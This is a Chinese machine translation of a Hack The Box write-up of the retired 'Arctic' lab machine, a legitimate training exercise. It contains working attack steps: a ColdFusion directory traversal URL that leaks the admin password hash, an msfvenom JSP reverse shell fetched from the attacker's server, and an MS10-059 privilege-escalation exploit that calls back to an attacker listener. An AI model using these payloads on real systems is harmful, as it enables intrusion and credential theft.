# 保持冷静，黑掉盒子-北极

> 原文：<https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-arctic/>

黑客盒子(HTB)是一个在线平台，让你测试你的渗透测试技能。它包含几个不断更新的挑战。有些是模拟真实世界的场景，有些更倾向于 CTF 风格的挑战。

**注**。*只允许报道退役的 HTB 机器。*



Arctic 是一台初学者级别的机器，但是 web 服务器上的加载时间给开发带来了一些挑战。需要进行基本的故障排除，才能使正确的漏洞利用正常运行。

我们将使用以下工具将盒子典当在一个 [Kali Linux 盒子](https://www.kali.org/)上

*   nmap
*   Searchsploit
*   散列标识符
*   MSFvenom
*   网猫
*   GDS security/Windows-Exploit-Suggester
*   python http 服务器
*   powershell

## 第一步-侦察

开发一台机器的第一步是做一些扫描和侦察。

这是最重要的部分之一，因为它将决定你以后可以尝试利用什么。在这个阶段花更多的时间来获取尽可能多的信息总是更好的。

## 端口扫描

我将使用 Nmap(网络映射器)。Nmap 是一个用于网络发现和安全审计的免费开源工具。它使用原始 IP 数据包来确定网络上有哪些主机可用、这些主机提供什么服务、它们运行什么操作系统、使用什么类型的包过滤/防火墙以及许多其他特征。

这个工具有许多命令可以用来扫描网络。如果你想了解更多，你可以看一下文档[这里](https://tools.kali.org/information-gathering/nmap)。



我使用以下命令来执行密集扫描:

```
nmap -A -v 10.10.10.11
```

**-A:** 启用操作系统检测、版本检测、脚本扫描和跟踪路由

**-v:** 增加详细级别

**10.10.10.11:** 北极盒的 IP 地址

如果您发现结果有点太多，您可以执行另一个命令来只获取开放的端口。

```
nmap 10.10.10.11
```



我们可以看到有 3 个开放的端口:

****港口** 135** 。Microsoft EPMAP(端点映射器)，也称为 DCE/RPC 定位器服务，用于远程管理包括 DHCP 服务器、DNS 服务器和 WINS 在内的服务

****港口** 8500** 。Adobe ColdFusion 内置 web 服务器


****港口** 49154** 。CMS 上的证书管理

目前，在端口 8500 上运行的 Adobe ColdFusion 将是主要目标。

## **步骤 2 -枚举**

我们试试**端口 8500** 访问 **http://10.10.10.11:8500**



我们可以看到两个文件夹。我打开文件夹。



它似乎是一个带有 ColdFusion 管理面板的 web 应用程序，地址如下:

```
10.10.10.11:8500/CFIDE/administrator/
```

有关 ColdFusion 的更多信息，请查看此处的。



我使用 **Searchsploit** 来检查 ColdFusion 上是否有任何已知的漏洞。Searchsploit 是一款针对 **[漏洞数据库](https://www.exploit-db.com/)的命令行搜索工具。**



我使用以下命令:

```
searchsploit coldfusion
```

我们还可以在漏洞数据库网站上找到该漏洞:



[https://www.exploit-db.com/exploits/14641](https://www.exploit-db.com/exploits/14641)

我看了一下对漏洞利用的描述:


并将**服务器**位替换为 **10.10.10.11:8500**

```
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

我可以看到散列密码现在出现在输入之间的页面上:



我使用**散列标识符**来标识可能的散列。hash-identifier 是一款软件，用于识别不同类型的用于加密数据尤其是密码的哈希。你可以在这里找到更多[的信息。](https://tools.kali.org/password-attacks/hash-identifier)

我用以下命令启动 hash-identifier:

```
hash-identifier
```

复制/粘贴我之前得到的散列密码:



我们看到散列最有可能是阿沙-1。

## 第三步-用 hashtoolkit.com 破解 SHA 1

我去网站 [hashtoolkit](http://hashtoolkit.com/) 去“解散列”。哈希函数的构建方式是很容易为文本生成哈希/指纹，但几乎不可能将哈希解码回原始文本。

值得注意的是，哈希是一种单向机制。因此，被散列的数据实际上不能被反转或“不散列”。

该网站正在使用**彩虹表**来逆转加密**哈希**函数，通常用于破解密码**哈希**。更多关于彩虹表的信息[点击这里](https://en.wikipedia.org/wiki/Rainbow_table)。

我复制/粘贴了哈希，找回了密码: **happyday。**



您还可以看到相同密码的不同哈希:



目前，该网站有近 170 亿个解密的 MD5 和 SHA1 密码哈希:


## 步骤 4 -创建计划任务

我使用密码登录门户网站:



我可以在左边栏看到一个区域，应该允许通过调试和日志类别下的计划任务上传:



我可以创建一个新任务:



在页面上，我必须用不同的参数设置任务:



我检查了**映射**以查看 CFIDE 路径——我们在开始时找到的两个文件夹之一——并知道在哪里可以保存 shell:



我将使用 **msfvenom** ，这是一个有效负载生成器，来精心设计这个漏洞——更具体地说是一个 **jsp** 反向外壳。这条信息是在侦察阶段收集的——查看 ColdFusion 的维基百科页面，我们可以看到它是用 Java 编写的:



你可以在这里了解更多关于 msfvenom [的信息。](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)


我使用以下命令来创建有效负载:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.51 LPORT=443 -f raw > arcticshell.jsp
```

****-** p **:**** 有效载荷使用

****-** f **:**** 输出格式

**LHOST**:**本地主机**

**LPORT**:**本地端口**

我把这个漏洞保存为**arcticshell.jsp**。我可以使用以下命令查看有效负载的内容:

```
cat arcticshell.jsp
```



让我们启动一个 Python 服务器来提供来自 Kali 的文件。我将使用**简单 HTTPServer** 。Python 附带的 SimpleHTTPServer 模块是一个简单的 HTTP 服务器，它提供标准的 GET 和 HEAD 请求处理程序。你可以在这里了解更多关于那个[的信息。](https://docs.python.org/2/library/simplehttpserver.html)

我使用以下命令创建一个简单的服务器:

```
python -m SimpleHTTPServer 80
```



回到 ColdFusion 面板，我为计划任务配置了以下参数。

首先，我设置了我们的 web 服务器的 URL，该服务器托管我们用 msfvenom 创建的 shell:

```
http://10.10.14.51/arcticshell.jsp
```

然后，我选中复选框，将输出保存到文件中。

最后，我将文件设置为以下路径:

```
C:\ColdFusion8\wwwroot\CFIDE\arcticshell.jsp
```

以下是我完成所有参数设置后的结果:



在左侧的操作下，我单击第一个按钮来运行任务。我可以在页面顶部看到一条绿色消息，让我知道计划任务已成功完成:



我还可以在我的 python http 服务器上看到 200 响应:



我在端口 ****443**** 上设置了一个 ****Ncat**** 监听器来捕捉反向 shell 连接。

> Ncat 是一个功能丰富的网络实用程序，可以从命令行通过网络读写数据。Ncat 是为 Nmap 项目编写的，是古老的 [Netcat](http://sectools.org/tool/netcat/) 的改进版。它使用 TCP 和 UDP 进行通信，旨在成为一个可靠的后端工具，为其他应用程序和用户即时提供网络连接。

你可以在这里了解更多关于 Ncat [的信息。](https://nmap.org/book/ncat-man.html)



然后，我浏览到 shell，网址为:

```
http://10.10.10.11:8500/CFIDE/arcticshell.jsp
```



终于有壳了！



## 步骤 5 -查找 user.txt 标志

我在机器上用命令检查我是谁

```
whoami
```



我列出了文件/文件夹

```
dir
```

我导航到用户



然后我移动到 tolis 文件夹



我导航到桌面



而且我找到了 user.txt 文件！



为了读取文件的内容，我使用了以下命令

```
more user.txt
```



## 步骤 6 - **使用**GDS security/**Windows-Exploit-Suggester**

我用命令查看系统信息

```
systeminfo
```



我将调查结果复制/粘贴到一个 **systeminfo.txt** 文件中:



我将使用来自 [GDSSecurity](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) 的 Windows-Exploit-Suggester:

> 该工具将目标修补程序级别与 Microsoft 漏洞数据库进行比较，以检测目标上潜在的缺失修补程序。它还会通知用户是否存在针对缺失公告的公开攻击和 Metasploit 模块。

> 它需要从 Windows 主机输出“systeminfo”命令，以便与 Microsoft 安全公告数据库进行比较，并确定主机的修补程序级别。

> 它能够使用- update 标志从 Microsoft 自动下载安全公告数据库，并将其保存为 Excel 电子表格。

我将原始的 windows-exploit-suggest python 脚本复制/粘贴到一个文件上，然后修改该文件

```
nano windows-exploit-suggester.py
```

粘贴来自 [GitHub 库](https://raw.githubusercontent.com/GDSSecurity/Windows-Exploit-Suggester/master/windows-exploit-suggester.py)的代码。我们现在把两个文件放在同一个文件夹中， **systeminfo.txt** 和**windows-exploit-suggester . py:**



我可以使用以下命令找到关于该工具的更多信息:

```
python windows-exploit-suggester.py -h
```



我使用以下命令更新工具的数据库:

```
python windows-exploit-suggester.py --update
```



我用运行脚本

```
python windows-exploit-suggester.py --systeminfo systeminfo.txt --database 2020-02-25-mssb.xls
```

如果遇到错误，您需要在安装 **xlrd** 之前安装 **pip** 。您可以使用以下命令在 Kali 上安装 pip:

```
apt install python-pip
```



然后，您可以使用以下命令安装 wlrd

```
pip install xlrd
```



我发现这台机器上有几份简历不见了。我将针对 **MS10-059** 漏洞:



## 步骤 7 - **执行权限提升**

我访问微软网站，从他们的安全公告中获取更多信息:



[https://docs.microsoft.com/en-us/security-updates/securitybulletins/2010/ms10-059](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2010/ms10-059)

我看了一下漏洞数据库:



[https://www.exploit-db.com/exploits/14610](https://www.exploit-db.com/exploits/14610)

我也看了一下国家漏洞数据库。更多关于 NVD 的信息请点击这里。



[https://nvd.nist.gov/vuln/detail/CVE-2010-2554](https://nvd.nist.gov/vuln/detail/CVE-2010-2554)

我在 GitHub [这里](https://github.com/Re4son/Chimichurri)找到一个可以下载的可执行文件。该漏洞将创建一个反向外壳。

我用创建了一个新的 python http 服务器

```
python -m SimpleHTTPServer 80
```

回到获取用户标志的 shell，我用漏洞的 URL 和保存漏洞的文件设置了一个 webclient:



我在 python http 服务器上得到一个 200:



我设置了一个新的 netcat，并使用以下命令启动漏洞利用:

```
exploit.exe 10.10.14.20 443
```



## 步骤 8 -查找 root.txt 标志

通过检查机器上的我是谁，我可以看到权限提升是成功的:

```
whoami
```

它回来了

```
nt authority\system
```

我是管理员:



我导航到用户:



我移至管理员文件夹:



我导航到桌面文件夹:



我能看到 root.txt 标志！



我使用下面的命令来查看文件的内容:

```
more root.txt
```



恭喜你。你找到了两面旗子！

请随时评论、提问或与朋友分享:)

你可以在这里看到更多我的文章

你可以在推特上关注我，也可以在 T2 的 LinkedIn 上关注我

别忘了# **GetSecure** ，# **BeSecure** ，# **StaySecure** ！

****其他黑盒子文章****

*   [保持冷静，黑掉瘸子](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-lame/)
*   [保持冷静，黑掉盒子——遗产](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-legacy/)
*   保持冷静，黑掉盒子
*   [保持冷静，黑盒子——哔](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-beep/)
*   [保持冷静，黑盒子——最佳](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-optimum/)

